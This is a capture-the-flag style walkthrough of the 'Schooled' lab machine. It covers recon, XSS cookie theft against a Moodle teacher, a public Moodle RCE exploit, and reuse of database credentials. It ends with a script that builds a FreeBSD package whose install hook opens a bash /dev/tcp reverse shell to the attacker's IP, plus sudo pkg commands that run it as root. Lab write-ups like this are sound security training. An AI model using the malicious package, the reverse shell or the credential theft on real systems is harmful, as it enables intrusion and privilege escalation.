

# Schooled

First as always, `nmap`

```
# Nmap 7.92 scan initiated Wed Aug 25 13:47:20 2021 as: nmap -vvv -p 22,80,33060 -sCV -oA init 10.10.10.234
Nmap scan report for box.ip (10.10.10.234)
Host is up, received syn-ack (0.071s latency).
Scanned at 2021-08-25 13:47:21 +07 for 22s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGY8PnQ2GFk9RrUQ82xGivlyXZ8k99JFZAFlNqJIftRHSGWL3HsfaO08lnGCrqVxj3235k0L74SJAqWfJs1ykTRipcZpsI5QvwYPyqpisMgH/SdCH1wehZpgaXRwdn52ob9+GxZ6qjqIon0cH0XR1hkNIGdbTt4RRMy+IfynzVuomW2mUi0tnnXU69pcyYNMShND4PqxVDKZHwUyeDIiYVBvnL5P9qEh0Q/t0HKWFHQ8otwWEpL3jnn774RFP9ETtZsJ/xosuhty02yIZuP6vqtbWfVqcqM8v1R3jm/xjXfXxiflGO09KO2aePAbEhNEofb7V/f33dRQDv5mr9ceZ1
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHc4TgrG+CyKqaIsk10XmAhUKULXK6Bq3bHHeJiWuBmdGS1k3Fp60OoVFdDKQj9aihkaUmbJ8fkG6dp07bm8IcM=
|   256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWIP8gV7SGQNoODfYq9qg1k3j6ZZg+1L9zIU9FrHPaf
80/tcp    open  http    syn-ack Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|     HY000
|   LDAPBindReq:
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns:
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[snip]
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 25 13:47:43 2021 -- 1 IP address (1 host up) scanned in 22.40 seconds
```

Looking at the website on port 80, we have a domain name.



I add the domain name to my `/etc/hosts` and run `ffuf` to get new subdomains.

```sh
$ ffuf -u "http://schooled.htb/" -H "Host: FUZZ.schooled.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 20750

moodle                  [Status: 200, Size: 84, Words: 5, Lines: 2, Duration: 153ms]
```

The newly found subdomain is then added to `/etc/hosts` and we navigate to said subdomain.

Navigating to `moodle.schooled.htb`, looking around, we need to be logged in for some functionalities so we create an account and log in.

Looking at the site home, we several courses. I enroll myself to every available course, which is only "Mathematics" by "Manuel Phillips" since I can't enroll myself in the other courses. After enrolling in Mathematics, we can view the messages in the course, of which "Reminder for joining students" tells us to have our "MoodleNet profile" set. Since the teacher says they're going to check the students to see that this parameter is set, we can assume we can perform XSS. We set up an HTTP listener and edit our "MoodleNet profile" with XSS payloads aiming to steal the cookie. Upon saving our profile, we're directed to our profile page where many requests with our own cookie should be sent to our HTTP listener due to XSS. I found the following payload to work:

```

```

After confirming that the payload works, I get away from the profile page to stop the unwanted traffic and wait for Manuel's cookie. After catching and editing our cookie, we become Manuel.

According the [Moodle](https://docs.moodle.org/311/en/Moodle_version), one way we can view the version of Moodle is as follows:

> For Moodle sites in English or German (only), if you are a regular teacher with no admin access, you might be able to find your Moodle version by clicking on "Moodle Docs for this page" at the bottom of any Moodle page when logged in.

In doing as instructed, we're able to discern that we're using Moodle version 3.9. Looking up "moodle 3.9 exploit", we get [an exploit on Exploit DB](https://www.exploit-db.com/exploits/50180). Using the exploit with our cookie as a teacher, we're able to get a reverse shell (supplied as the command) as "www".

Looking around `/usr/local/www/apache24`, we find that `/usr/local/www/apache24/data/moodle/config.php` contains MySQL credentials. We can't just run `mysql`, however, as it seems to not be in our `PATH`, so we `find` it.

```sh
[www@Schooled /usr/local/www/apache24/data/moodle]$ find / -name mysql -type f 2>/dev/null
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/mysql
/var/mail/mysql
```

With our `mysql` binary, we can log in.

```sh
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ /usr/local/bin/mysql -u root -pPlaybookMaster2020 -e "show databases"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
moodle
mysql
performance_schema
sys
```

In database "moodle", table "mdl_user", we have multiple password hashes. We should be able to crack admin's hash (`!QAZ2wsx`) with hashcat and rockyou. We can attempt to log into SSH as "admin", but that doesn't work. Looking at `/etc/passwd`, 3 users have a shell: root, jamie and steve. Among the 3, we're only able to log in as jamie with the cracked password.

Checking jamie's sudo privileges ...

```sh
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

We're able to run `pkg` to install packages as root without a password. Following [this article](http://lastsummer.de/creating-custom-packages-on-freebsd/) we can create a custom package.

Create and run the following script

```sh
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/csh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
pw usermod -n root -s /bin/sh
bash -c 'exec bash -i &>/dev/tcp/10.10.14.33/1337 <&1'
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```

After that, set up a `nc` listener to catch the shell and run the following

```sh
sudo /usr/sbin/pkg update
sudo /usr/sbin/pkg install --no-repo-update *.txz
```

With that, we should have a root shell.
